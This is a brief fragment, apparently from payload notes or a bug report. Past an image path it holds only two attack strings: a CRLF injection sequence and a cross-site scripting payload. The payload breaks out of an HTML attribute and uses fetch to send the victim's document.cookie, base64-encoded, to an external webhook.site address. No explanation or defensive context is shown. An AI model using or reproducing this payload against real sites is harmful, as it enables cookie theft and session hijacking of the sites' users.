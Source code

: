 ```http
%0d%0a
```


```js
t"><script>fetch("https://webhook.site/f3899668-1750-4ddf-9612-b044618c3c92?x="%2Bbtoa(document.cookie))</script>
```